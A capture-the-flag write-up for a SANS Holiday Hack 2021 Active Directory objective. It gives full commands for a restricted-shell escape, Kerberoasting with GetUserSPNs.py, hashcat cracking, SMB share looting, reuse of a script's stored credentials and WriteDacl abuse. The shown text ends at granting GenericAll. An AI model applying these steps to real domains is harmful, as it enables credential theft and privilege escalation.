 # OBJECTIVE 8 - Kerberoasting on an Open Fire #

## OBJECTIVE : ##
>Obtain the secret sleigh research document from a host on the Elf University domain. What is the first secret ingredient Santa urges each elf and reindeer to consider for a wonderful holiday season? Start by registering as a student on the [ElfU Portal](https://register.elfu.org/). Find Eve Snowshoes in Santa's office for hints..

#  

## HINTS: ##
<details>
  <summary>Hints provided for Objective 8</summary>
  
>-	Check out [Chris Davis' talk](https://www.youtube.com/watch?v=iMh8FTzepU4) and [scripts](https://github.com/chrisjd20/hhc21_powershell_snippets) on Kerberoasting and Active Directory permissions abuse.
>-	Learn about [Kerberoasting](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a) to leverage domain credentials to get usernames and crackable hashes for service accounts.
>-	There will be some `10.X.X.X` networks in your routing tables that may be interesting. Also, consider adding `-PS22,445` to your `nmap` scans to "fix" default probing for unprivileged scans.
>-	[OneRuleToRuleThemAll.rule](https://github.com/NotSoSecure/password_cracking_rules) is great for mangling when a password dictionary isn't enough.
>-	[CeWL](https://github.com/digininja/CeWL) can generate some great wordlists from website, but it will ignore digits in terms by default.
>-	Administrators often store credentials in scripts. These can be coopted by an attacker for other purposes!
>-	Investigating Active Directory errors is harder without [Bloodhound](https://github.com/BloodHoundAD/BloodHound), but there are [native](https://social.technet.microsoft.com/Forums/en-US/df3bfd33-c070-4a9c-be98-c4da6e591a0a/forum-faq-using-powershell-to-assign-permissions-on-active-directory-objects?forum=winserverpowershell) [methods](https://www.specterops.io/assets/resources/an_ace_up_the_sleeve.pdf).

</details>

#  

## PROCEDURE : ##

We start off this one by registering at the [elfu registration portal](https://register.elfu.org/) and we are given a username, password and server address and instructed to `ssh` to it on port `2222`.  We are then met by a menu screen which only accepts `1` or `e` as keyboard inputs.  `1` brings up a list of grades and `e` exits the program any other keypress doesn’t appear to do anything.

After hours and hours and hours of trying different combinations, I discovered that `Ctrl+D` exits to a Python prompt – well I wish I’d tried that earlier!

From the Python prompt I was able to run the following commands to exit to a bash prompt:
```
>>> import subprocess
>>> out, err = subprocess.Popen(['bash', '-l'], env={}).communicate()
```

Now that I’ve broken out into a bash prompt,  I looked around (following the suggestions in the hint) and noticed that the routing table includes routes to another three networks; `10.128.1.0/24`, `10.128.2.0/24` and `10.128.3.0/24`.  The `172.17.0.0/16` network is the one we’re on.
I also have a look at the ARP table and find four hosts on it which are on the same network as I am.  I ran a `nmap` scan towards each of these four IPs and `172.17.0.4` attracted my attention due to the number of open ports it had including LDAP, SMB and RPC.
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/2a1040a6-442e-4343-ae6b-fc3c5422c845)

Using `rpcclient`, I was able to connect to `172.17.0.4` with the same credentials provided by the Elf-U registration page
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/535ce633-9add-4d14-b6b0-736254065460)

At this point I Googled some ways of enumerating a server using `rpcclient` and I was able to get some interesting information.

By running ``rpcclient $> enumdomusers`` we get a list of users on the domain which include a number of particularly interesting ones:
-  ``user: [test] rid:[0x60f]``
- ``user:[Administrator] rid: [0x1f4]``
-  ``user:[admin] rid:[0x3e8]``
- ``user:[elfu_admin] rid[0x450]``
-  ``user:[elfu_svc] rid:[0x451]``
-  ``user:[remote_elf] rid:[0x452]``

I could also run ``rpcclient $> enumdomgroups`` to get a list of domain groups
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/3874ac46-5c04-4431-a253-5001eb455c5f)

and ``rpcclient $> get dompwinfo`` to find out what kind of password requirements are enforced on the domain.  From this I learned that the domain requires a **minimum password length of 7 characters**.  Something tells me this might be useful later on in this challenge...
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/72cfd07c-b4f6-4a24-b1da-0e1f2be9a068)

Running `nmap` towards the `10.x.x.x` networks with the `-PS22,445` switch as suggested in the hint gives us two hosts that are particularly interesting: `10.128.3.30` and `10.128.1.53`.  The latter’s hostname is `hhc21-windows-dc.c.holidayhack2021.internal` and by connecting to it using `rpcclient` and running ``rpcclient $> querydominfo``, I confirmed that the Server’s role is `ROLE_DOMAIN_PDC` – presumably that stands for **P**rimary **D**omain **C**ontroller.  Similarly, I was able to determine that `10.128.3.30` is the BDC – **B**ackup **D**omain **C**ontroller.
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/13e71f00-3f20-4403-b767-931b5fc6f2e8)

Now that I found the domain controller, I should be able to use [Kerbroasting](https://attack.mitre.org/techniques/T1558/003/) to get a password hash.  I start by uploading the script `GetUserSPNs.py`[^1]  using `scp`:
```
> Scp -P 2222 GetUserSPNs.py username@grades.elfu.org:
```

I can now run the script on the `grades.elfu.org` machine which is directly connected to the ELFU domain and I can use my own credentials for this:
```
$ Python3 GetUserSPNs.py -outputfile spns.txt -dc-ip 10.128.1.53 elfu.local/username:'Password!' -request
```

Once the script ran, I got a text file; `spns.txt` which contains a hash for user `elfu_svc` and I could copy this back to my  local machine using `scp` once again:
```
> Scp -P 2222 username@grades.elfu.org:/home/username/spns.txt spns.txt
```

For the next step I need to crack the hash using [Hashcat](https://hashcat.net/hashcat/).  For this I’ll need a suitable wordlist and a mangling ruleset.  The hints suggest using `Cewl` to generate the wordlist and `OneRuleToRuleThemAll.rule`[^2]  as a mangling rule.  From the enumeration I did earlier on the domain connected machines, I know that the domain password rules expect a password with a minimum length of 7 characters.  So, I can use `cewl` to scrape `https://register.elfu.org/register` for words of suitable length.  I also include the `–with-numbers` switch as recommended by the hints (by looking at the page source we see the names of karaoke groups which look a bit like potential passwords and include numbers in them).
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/4a478247-50e0-46d3-84ad-045b65308d12)
```
$ cewl -m 7 -w custom_wordlist.txt –with-numbers https://register.elfu.org/register
```

Now I run `hashcat` with the generated wordlist:
```
$ hashcat -m 13100 -a 0 spns.txt –potfile-disable -r OneRuleToRuleThemAll.rule –force -O -w 4 –opencl-device-types 1,2 custom_wordlist.txt
```

Once hashcat finishes cracking the hash I find out that the user `elfu_svc` has password `Snow2021!` 😊

I can use these new credentials now to connect to the BDC server and see what shares are available on it:
```
$ rpcclient -U elfu_svc 10.128.3.30 -c netshareenum
```
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/91857eb5-5daa-4782-8e4e-2bf93b9ca39d)

I see that there are 4 shares available; `netlogon`, `sysvol`, `elfu_svc_shr` and `research_dep`.
I can access all of these apart from `research_dep`.   On the other hand, `elfu_svc_shr` is the only share I have access to that has any files on it.  
I can access this share and download all the files in a tar archive:
```
$ smbclient -U elfu_svc //10.128.3.30/elfu_svc_shr
smb: \> tar c all.tar
```

Now I can untar the file and search through the contents[^3]:
```
$ tar -xvf all.tar
$ grep -l remote_elf   
```

This pointed me to a PowerShell script file called `GetProcessInfo.ps1` (can’t believe it’s actually the exact same filename as in the tutorial video) which includes some kind of hash of `remote_elf`‘s password.  
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/a529a93a-250b-4fb0-9f1b-709b5dc708dc)

Looking through the script I can see that is actually using `remote_elf`’s credentials to connect to the DC and get the running processes.  I can therefore edit the same script using the hints provided [here](https://github.com/chrisjd20/hhc21_powershell_snippets#added-bonus-here-is-how-you-can-enter-pssession-into-a-remote-computer) to allow me to establish a PowerShell Session.  
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/e028cee7-b23c-4fb8-9a58-f6f2cd0ed613)

Now I hope (or expect, given the hints in this challenge so far) that `remote_elf` has been given `WriteDacl` rights to a group that is of interest to us.  After some trial-and-error I find that `remote_elf` does indeed have `WriteDacl` enabled for the group `Research Department`.  This is verified by running the following at the powershell prompt:
```
$ADSI = [ADSI]"LDAP://CN=Research Department,CN=Users,DC=elfu,DC=local"
$ADSI.psbase.ObjectSecurity.GetAccessRules($true,$true,[Security.Principal.NTAccount])
```

And here we see that WriteDacl is enabled for `remote_elf`... excellent!
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/1a6df0c0-4ff4-48e2-9701-f30363b6f70f)

So now I can use `remote_elf`’s privileges to give `Generic All` access to our username provided by the `register.elfu.org` system.  For this I can use this script.  The script runs with a number of errors, but when I check permissions again I see that my user now has `GenericAll` rights.
![image](https://github.com/beta-j/SANS-Holiday-Hack-Challenge-2021/assets/60655500/3bb62529-b447-4609-b9a6-77cdde7b2606)



[^1]:[https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/GetUserSPNs.py )
[^2]:[https://github.com/NotSoSecure/password_cracking_rules/blob/master/OneRuleToRuleThemAll.rule](https://github.com/NotSoSecure/password_cracking_rules/blob/master/OneRuleToRuleThemAll.rule)
[^3]:I finally looked for `remote_elf` after trying a whole bunch of other keywords and then decided to start looking for some of the usernames I had enumerated earlier.
